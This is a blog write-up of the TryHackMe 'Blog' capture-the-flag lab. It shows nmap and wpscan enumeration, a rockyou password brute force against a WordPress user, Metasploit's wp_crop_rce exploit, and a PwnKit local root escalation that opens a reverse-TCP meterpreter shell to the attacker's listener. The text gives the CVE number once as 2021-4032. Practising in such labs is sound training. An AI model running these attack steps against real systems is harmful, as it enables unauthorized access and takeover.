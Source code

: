 ```yaml
---
title: /writeups/Blog
layout: post
permalink: /writeups/Blog
---
```

Writeup of THM Machine called <a href="https://tryhackme.com/room/blog">"Blog"</a>

<div class="highlighter-rouge"><div class="highlight"><pre class="highlight"><code><table class="rouge-table"><tbody><tr><td class="rouge-gutter gl"><pre class="lineno">1
2
3
4
5
6
7
</pre></td><td class="rouge-code"><pre>Billy Joel made a blog on his home computer and has started working on it.  It's going to be so awesome!

Enumerate this box and find the 2 flags that are hiding on it!  Billy has some weird things going on his laptop.  Can you maneuver around and get what you need?  Or will you fall down the rabbit hole...

In order to get the blog to work with AWS, you'll need to add blog.thm to your /etc/hosts file.

Credit to Sq00ky for the root privesc idea ;) 
</pre></td></tr></tbody></table></code></pre></div></div>

<h1>Enumeration</h1>
<p>Obviously first thing I did was an nmap scan:</p>
<div class="highlighter-rouge"><div class="highlight"><pre class="highlight"><code><table class="rouge-table"><tbody><tr><td class="rouge-gutter gl"><pre class="lineno">1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
</pre></td><td class="rouge-code"><pre>$ nmap -T4 -A -sV blog.thm
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-04 15:42 CET
Nmap scan report for blog.thm < ip >
Host is up (0.069s latency).
Not shown: 995 closed tcp ports (conn-refused)
PORT     STATE    SERVICE     VERSION
22/tcp   open     ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 57:8a:da:90:ba:ed:3a:47:0c:05:a3:f7:a8:0a:8d:78 (RSA)
|   256 c2:64:ef:ab:b1:9a:1c:87:58:7c:4b:d5:0f:20:46:26 (ECDSA)
|_  256 5a:f2:62:92:11:8e:ad:8a:9b:23:82:2d:ad:53:bc:16 (ED25519)
80/tcp   open     http        Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: WordPress 5.0
| http-robots.txt: 1 disallowed entry 
|_/wp-admin/
|_http-title: Billy Joels IT Blog The IT blog
|_http-server-header: Apache/2.4.29 (Ubuntu)
139/tcp  open     netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open     netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
5906/tcp filtered rpas-c2
Service Info: Host: BLOG; OS: Linux; CPE: cpe:/o:linux:linux_kernel
 
Host script results:
|_nbstat: NetBIOS name: BLOG, NetBIOS user: , NetBIOS MAC:(unknown)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: blog
|   NetBIOS computer name: BLOG\x00
|   Domain name: \x00
|   FQDN: blog
|_  System time: 2024-02-04T14:42:59+00:00
| smb2-time: 
|   date: 2024-02-04T14:42:59
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
 
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ 
Nmap done: 1 IP address (1 host up) scanned in 19.93 seconds 
</pre></td></tr></tbody></table></code></pre></div></div>

I personally didn't even try to enumerate smb further, luckily, I saw in other writeups that it's a honeypot
<p>However, we can see, that on port 80 there's an http server<p>
<h1>HTTP</h1>

<img src="/images/BlogMain.png" alt="Wordpress Home site" />

We can see, that it is a wordpress blog, so I run wpscan (I removed boring stuff): 

<div class="highlighter-rouge"><div class="highlight"><pre class="highlight"><code><table class="rouge-table"><tbody><tr><td class="rouge-gutter gl"><pre class="lineno">1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
</pre></td><td class="rouge-code"><pre>┌──(silen㉿pop-os)-[~/Desktop/THM/Blog]
└─$ wpscan --url http://blog.thm -e u 
Interesting Finding(s):

[+] robots.txt found: http://blog.thm/robots.txt
 | Interesting Entries:
 |  - /wp-admin/
 |  - /wp-admin/admin-ajax.php
 | Found By: Robots Txt (Aggressive Detection)
 | Confidence: 100%
 
[+] WordPress version 5.0 identified (Insecure, released on 2018-12-06).
 | Found By: Rss Generator (Passive Detection)
 |  - http://blog.thm/feed/, <generator>https://wordpress.org/?v=5.0</generator>
 |  - http://blog.thm/comments/feed/, <generator>https://wordpress.org/?v=5.0</generator>
 
[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:01 <================================================================================================================================================================> (10 / 10) 100.00% Time: 00:00:01
 
[i] User(s) Identified:
 
[+] kwheel
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blog.thm/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)
 
[+] bjoel
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blog.thm/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)
</pre></td></tr></tbody></table></code></pre></div></div>

<p>First of all, it tells us that the wordpress is running on version 5.0. Quick google search gets us CVE-2019-8943 to which, we need user login and password, but wpscan also helps us there as it gives us two usernames - "kwheel" and "bjoel". I decided to bruteforce them because I didn't have any other idea. Also, kwheel seemed to probably care less about her password than her son, so I tried to brute force her user first.</p>
<div class="highlighter-rouge"><div class="highlight"><pre class="highlight"><code><table class="rouge-table"><tbody><tr><td class="rouge-gutter gl"><pre class="lineno">1
2
3
4
5
6
7
8
9
</pre></td><td class="rouge-code"><pre>┌──(silen㉿pop-os)-[~/Desktop/THM/Blog]
└─$ wpscan --url http://blog.thm -P /usr/share/wordlists/rockyou.txt -U kwheel -t 32
 
[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - kwheel / <oz#mJ@y8C$vq6@>                                                                                                                                                                                                                
Trying kwheel / <oz#mJ@y8C$vq6@> Time: 00:00:46 <                                                                                                                                                              > (<37> / 14347272)  0.02%  ETA: ??:??:??
 
[!] Valid Combinations Found:
 | Username: kwheel, Password: <oz#mJ@y8C$vq6@>
</pre></td></tr></tbody></table></code></pre></div></div>
As you can see we found valid combination. 
<p>I mentioned CVE-2019-8943 before, it turns out, there is a metasploit module which we can use called "exploit/multi/http/wp_crop_rce"</p>
After setting up every option and running exploit, we gain a shell!

<h1>PrivEsc</h1>
I saw that there is nicer way (envolving reverse engineering) to do privelege escalation than I did, but I will show my simple way using metasploit modules.
<p>First module I run was "post/multi/manage/shell_to_meterpreter", which made it possible to use exploit suggester (post/multi/recon/local_exploit_suggester)<p/>
<p>Suggester tells us, that the system is vulnerable to CVE-2021-4032</p>
<div class="highlighter-rouge"><div class="highlight"><pre class="highlight"><code><table class="rouge-table"><tbody><tr><td class="rouge-gutter gl"><pre class="lineno">1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
</pre></td><td class="rouge-code"><pre>msf6 post(multi/recon/local_exploit_suggester) > use exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec 
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp

msf6 exploit(linux/local/cve_2021_4034_pwnkit_lpe_pkexec) > set session 4
session => 4
msf6 exploit(linux/local/cve_2021_4034_pwnkit_lpe_pkexec) > set lhost tun0
lhost => 37.37.37.37
msf6 exploit(linux/local/cve_2021_4034_pwnkit_lpe_pkexec) > set lport 9898
lport => 9898
msf6 exploit(linux/local/cve_2021_4034_pwnkit_lpe_pkexec) > exploit
 
[*] Started reverse TCP handler on 10.14.68.194:9898 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] Verify cleanup of /tmp/.pltvpwc
[+] The target is vulnerable.
[*] Writing '/tmp/.zbzpuhuxuf/huogglp/huogglp.so' (548 bytes) ...
[!] Verify cleanup of /tmp/.zbzpuhuxuf
[*] Sending stage (3045380 bytes) to 10.10.22.192
[+] Deleted /tmp/.zbzpuhuxuf/huogglp/huogglp.so
[+] Deleted /tmp/.zbzpuhuxuf/.vtxjvu
[+] Deleted /tmp/.zbzpuhuxuf
[*] Meterpreter session 5 opened (10.14.68.194:9898 -> 10.10.22.192:59766) at 2024-02-04 18:35:48 +0100

meterpreter > shell
Process 5384 created.
Channel 1 created.
whoami
root
</pre></td></tr></tbody></table></code></pre></div></div>
<p>After running which, we gain root access!</p>
<p>Now we can look for flag that is hidden in "/media/usb" and move to the next room :D</p>


Thank you for reading

